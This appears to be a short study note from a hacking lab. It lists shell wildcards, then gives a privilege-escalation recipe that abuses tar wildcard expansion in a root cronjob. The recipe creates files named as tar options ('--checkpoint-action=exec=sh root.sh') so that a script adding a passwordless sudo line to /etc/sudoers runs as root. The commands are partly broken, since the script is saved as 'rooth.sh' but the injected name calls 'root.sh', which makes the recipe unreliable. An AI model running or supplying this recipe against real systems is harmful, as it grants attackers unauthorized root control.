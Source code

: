 Examples:
* (match any number of characters)
? (matches single character)
[] (match any single one character at the defined position)
~ (home directory)
- (range)

**Exploit cronjob to allow sudo
```shell-session
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > rooth.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```
